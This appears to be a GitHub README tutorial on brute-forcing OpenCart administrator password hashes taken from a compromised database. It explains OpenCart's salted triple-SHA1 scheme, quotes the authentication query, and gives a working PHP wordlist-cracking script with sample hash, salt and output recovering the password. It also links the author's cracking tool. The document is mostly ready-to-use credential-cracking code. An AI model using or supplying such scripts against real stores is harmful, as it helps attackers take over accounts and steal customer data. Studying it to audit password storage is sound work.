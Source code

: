 # Brute Force Attack In OpenCart Stored Passwords.
In this little tutorial I demonstrate how to perform a brute force attack based in word lists on passwords stored in OpenCart application databases.


## SCENERY
- You have access to the database of an application that uses OpenCart.
- You query the Password Hash and Salt in the administrator table and you get the following result:

| password      						  | salt    | email             | status | username    | lastname | ip        | firstname |
|-----------------------------------------|---------|-------------------|--------|-------------|----------|-----------|-----------|
|f2e9efd4a366507c5b1cba7749659d93d61ae335 |oInuc412L| admin@pentest-server.com 	| 1      | Admin       | das ganbi| 127.0.0.1 | developer |


## PROBLEM
You are not familiar with the OpenCart password encryption system, so you will try to unmask this `hash` with brute force using services that are based on simple SHA1 encryption.

```php
#exemple:

<?php
$password = "f2e9efd4a366507c5b1cba7749659d93d61ae335";

$lines = file('wordlist_demo.txt', FILE_IGNORE_NEW_LINES);

foreach($lines as $string)
{
   $hashed=SHA1($string);
   if($hashed==$password) { echo "PASSWORD: ".$string; } else{}
} ?>
```


The problem is that `$password` is not simply a string encrypted with SHA1, or MD5, or SHA1 (MD5) ... Anyway, a usual brute-force script based on these encryption templates would hardly generate a` hash` equal to `hash` that you want to 'unmask'.

## SOLUCTION
We need to create our own script that will search the hash string in the correct form.
And what would be the correct way?

IF WE CHECK THE PHP FILE THAT MAKES ADMIN AUTHENTICATION ON THE OPENCART
`\opencart\system\library\user.php`

WE FIND THE FOLLOWING CODE:
```
$user_query = $this->db->query("SELECT * FROM " . DB_PREFIX . "user WHERE username = '" . $this->db->escape($username) . "' AND (password = SHA1(CONCAT(salt, SHA1(CONCAT(salt, SHA1('" . $this->db->escape($password) . "'))))) OR password = '" . $this->db->escape(md5($password)) . "') AND status = '1'");
```

INTERESTING PART:
```
password = SHA1(CONCAT(salt, SHA1(CONCAT(salt, SHA1('" . $this->db->escape($password) . "'))))) OR password = '" . $this->db->escape(md5($password)) . "')
```

ADAPTING THE CODE WE HAVE:
```
$password=SHA1($salt.SHA1($salt.SHA1($password)));
```

**obs**: I ignored this part `OR password = '" . $this->db->escape(md5($password)) . "')` since we tested our hash and we already know that it is SHA1, right?


## Now we know how to encrypt the strings of our wordlist to compare with the hash found in the admin table.

A simple php script to test brute force on OpenCart passwords would look like this:


```php
#exemple:

<?php
$salt = "oInuc412L";
$password = "f2e9efd4a366507c5b1cba7749659d93d61ae335";

$lines = file('wordlist_demo.txt', FILE_IGNORE_NEW_LINES);

foreach($lines as $string)
{
   $hashed=SHA1($salt.SHA1($salt.SHA1($string)));
   if($hashed==$password){
      echo "PASSWORD: ".$string;
	} else{}
} ?>
```

```
C:\Users\demo\open-cript-master>php opencript.php
PASSWORD: 12345
```

## Final considerations
- the attack I did was using word list, but you can implement for other tests. Use your imagination.
- If any word is wrong do not blame me, Blame the translator. I am Brazilian.

## Fonts
- myself

## Test my tool based on this article
[opencript - OPENCART PASSWORD DECRYPTOR BASED ON WORD LIST](https://github.com/pabloverlly/open-cript)

###### _NEED ME? pablov3rlly[at]gmail.com_
